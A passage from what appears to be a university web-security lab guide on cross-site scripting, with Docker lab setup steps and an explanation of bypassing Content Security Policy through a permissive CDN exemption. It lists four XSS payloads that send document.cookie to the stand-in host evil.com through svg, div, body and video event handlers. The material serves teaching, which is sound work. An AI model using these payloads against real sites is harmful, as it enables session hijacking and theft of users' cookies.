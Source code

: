 Below are a list of other XSS payloads using other HTML tags beside `<script>` and more listed [here](https://raw.githubusercontent.com/pgaijin66/XSS-Payloads/master/payload/payload.txt).

```html
<svg onload="window.location='https://evil.com/?nomnom='+document.cookie" />
<div onpointerover="window.location='https://evil.com/?nomnom='+document.cookie">MOVE HERE</div>
<body onload="window.location='https://evil.com/?nomnom='+document.cookie"></body>
<video src=_ onloadstart="window.location='https://evil.com/?nomnom='+document.cookie" />
```

### 6.2.4 XSS Using Other HTML Tags Exercise

For this execise, download [docker-compose.xss\_alt\_tag.yml](files/lab6/docker-compose-files/docker-compose.xss\_alt\_tag.yml).&#x20;

```
wget https://raw.githubusercontent.com/uwacyber/cits3006/2022s2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_alt_tag.yml
```

{% hint style="info" %}
M1/M2 users: make the same changes as you did in Section 6.2.2.
{% endhint %}

Run the Docker containers using the following command.

<pre><code><strong>sudo docker-compose -f docker-compose.xss_alt_tag.yml up</strong></code></pre>

Now perform XSS  without the `<script>` HTML tag.

### 6.2.3 Bypassing Content Security Policy Protections

The Content-Security-Policy (CSP) is a response header sent by web applications to browsers that define trusted sources for web content and is a recommended mitigation strategy against XSS attacks. The web browser will read the Content-Security-Policy and rejects rendering any components that do not comply with the policy. An example of a CSP configuration that will only allow rendering content hosted on the website is shown below.

```
Content-Security-Policy: default-src 'self';
```

The downside of Content-Security-Policies is that a secure configuration can significantly impact what can be rendered on the website. Therefore, most websites specify exemptions for remote resources that can be loaded. For example, the CSP below has allowed `unsafe-eval` for JavaScript code on `https://cdnjs.cloudflare.com/`.

```
Content-Security-Policy: default-src 'self';script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;font-src 'self' https://fonts.gstatic.com/;img-src 'self' data:;child-src 'none';object-src 'none'
```

However, an attacker can bypass the above CSP since it does not specify exact JavaScript files from `https://cdnjs.cloudflare.com/` and vulnerable code to XSS that is hosted on `https://cdnjs.cloudflare.com/` can be loaded. The below payload bypasses the CSP by loading the XSS vulnerable AngularJS version 1.4.6 JavaScript file then executing the payload using a `<div>` tag.
